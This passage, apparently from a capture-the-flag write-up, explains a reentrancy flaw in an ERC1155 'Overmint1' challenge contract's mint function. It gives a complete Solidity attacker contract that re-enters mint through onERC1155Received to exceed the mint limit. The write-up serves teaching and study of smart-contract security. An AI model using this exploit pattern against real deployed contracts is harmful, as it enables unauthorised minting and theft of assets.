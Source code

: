 ```solidity
    function success(address _attacker, uint256 id) external view returns (bool) {
        return balanceOf(_attacker, id) == 5;
    }
}
```

### Exploit

The `mint` function doesn't follow the checks-effects-interactions pattern and is, therefore, vulnerable to reentrancy. To see this, note that the ERC1155 `_mint` function calls `_doSafeTransferAcceptanceCheck` under the hood, which in turn calls `onERC1155Received` on the receiving contract. This hands over control to the receiving contract before `amountMinted` is updated.

Therefore, we can solve this challenge using a custom `onERC1155Received` function that reenters `mint` until our attacker contract has a balance of 5 tokens of a given `id`. 

_Overmint1_ERC1155_Attacker.sol_
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;

import "@openzeppelin/contracts/token/ERC1155/IERC1155Receiver.sol";
import "./Overmint1-ERC1155.sol";

contract Overmint1_ERC1155_Attacker is IERC1155Receiver {
    Overmint1_ERC1155 public overmint1ERC1155;

    constructor(address _victim) {
        overmint1ERC1155 = Overmint1_ERC1155(_victim);
    }

    // Fallback function can be used to start the attack
    function attack() public {
        overmint1ERC1155.mint(0, "");
        overmint1ERC1155.safeTransferFrom(address(this), msg.sender, 0, 5, "");
    }

    function onERC1155Received(address operator, address from, uint256 id, uint256 value, bytes calldata data)
        external
        override
        returns (bytes4)
    {
        if (overmint1ERC1155.balanceOf(address(this), 0) < 5) {
            overmint1ERC1155.mint(0, "");
        }
        return this.onERC1155Received.selector;
    }

    function onERC1155BatchReceived(
        address operator,
        address from,
        uint256[] calldata ids,
        uint256[] calldata values,
        bytes calldata data
    ) external pure override returns (bytes4) {
        return this.onERC1155BatchReceived.selector;
    }

    function supportsInterface(bytes4 interfaceId) public view virtual override returns (bool) {
        return interfaceId == type(IERC1155Receiver).interfaceId;
    }
}
```

